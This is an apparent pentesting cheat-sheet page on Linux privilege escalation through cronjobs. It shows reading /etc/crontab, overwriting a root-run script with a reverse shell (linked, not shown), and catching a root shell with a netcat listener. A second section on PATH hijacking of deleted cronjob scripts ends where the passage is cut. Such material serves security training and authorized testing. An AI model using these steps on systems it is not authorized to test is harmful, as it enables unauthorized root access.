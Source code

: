## <mark style="color:orange;">Abusing existing cronjobs</mark>

* Verify executables set as cronjobs

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>cat /etc/crontab
</strong>#Example results
* * * * * root /home/user/file.sh
</code></pre>

{% hint style="info" %}
`file.sh` is an arbitrary name used as an example. Can be another bash file or executable.
{% endhint %}

***

* Go to the file location and change the content to get a reverse shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
cd /home/user
nano file.sh    # The content will be replaced with a reverse shell script
```
{% endcode %}

{% hint style="info" %}
To see the script of the reverse shell you can go[ here](../../../scripting/reverse-shell.md)
{% endhint %}

***

* Create a listening port with netcat to receive the shell

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>nc -nlvp $port
</strong>#You will receive a root shell
</code></pre>

{% hint style="info" %}
`$port` is the port specified in the reverse shell script
{% endhint %}

## <mark style="color:orange;">Abusing deleted cronjobs</mark>

* Verify executables set as cronjobs

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>cat /etc/crontab
</strong>#Example results
PATH:/home/user:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
...
* * * * * root file.sh
</code></pre>
